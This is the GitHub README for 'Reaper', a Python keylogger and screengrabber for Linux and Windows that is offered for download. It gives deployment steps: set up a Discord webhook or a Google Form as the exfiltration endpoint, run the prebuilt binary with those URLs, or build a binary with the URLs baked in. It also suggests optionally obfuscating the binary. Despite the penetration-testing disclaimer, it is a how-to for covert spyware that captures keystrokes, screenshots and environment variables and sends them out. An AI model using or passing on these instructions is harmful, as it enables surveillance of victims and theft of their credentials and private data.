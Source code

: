 # Reaper - A multi-platform keylogger and screengrabber

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Reaper?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Reaper)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Reaper is a **multi-platform keylogger, screengrabber and information gatherer** 
written in Python 3.

The **keylogger** module captures all keyboard events independently of which application is 
being run. Keystrokes on browsers, games, messengers, etc., are all monitored. Similarly, the 
**screenshot** module captures images from the active monitor in spite of which application 
generates them. **System information** such as OS name, kernel version, architecture and 
environment variables are also captured.

All data is exfiltrated to a **Discord** server and/or **Google Forms** instance through HTTPS.

Linux and Windows binaries are [available for download](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
for portability and ease of execution.

## Demo
![demo]()

## Setup and Execute
All you need to run Reaper is a free Discord server and/or a 
Google Forms instance.

### I. Set up Discord / Google Forms
You need at least one of the methods for successful exfiltration.
- **Discord:** Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/49511f621c43ce8a9fac138fa4b14f369edf6cbf/reaper/webhook_setup.png)

- **Google Forms:** Create a form on https://docs.google.com/forms with a free Google account. 
Set up as many questions as you need, with any names. Copy the form URL and that's it. *The 
exfiltration works as long as the answer field for the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/9842916f424823ae8d72f8cd0e73a66371b9bcc7/reaper/forms_setup.png)

### II. Execute
[Download Reaper](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
from the dist directory and run it with the URLs of your Discord server and/or Google Forms instance.
```shell
./linux_reaper --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The same procedure works for the Windows binary. Run with `--help` for options or check 
the [Usage](https://github.com/EONRaider/BCA-Reaper/tree/master#usage) section below.

### III. (Optional) Build your own binary
What if you need a binary ready to exfiltrate to your own preset Discord and 
Google Forms URLs on execution *without setting them from the command line*? This might prove 
useful in a scenario of threat emulation, for example.

Building the binary allows you to do just that. You just need to install all dependencies and build. 
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended) and [Virtualenv](https://virtualenv.pypa.io/en/latest/). 
```shell
git clone https://github.com/EONRaider/BCA-Reaper.git
cd BCA-Reaper
poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
python build.py --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The result is a binary file named `OS-NAME_reaper` that is ready to exfiltrate to your preset URLs 
on execution. Optionally obfuscate and deploy in accordance with your threat emulation activity's ROE. Refer 
to the [Legal Disclaimer](https://github.com/EONRaider/BCA-Reaper/tree/master#legal-disclaimer) 
below.

## Usage
```
usage: reaper.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Reaper - Log keystrokes, take screenshots and grab system information from a target host 
and exfiltrate to Discord and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration 
                        of logged data. Defaults to 30 seconds. Set to None to perform a 
                        single operation.
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
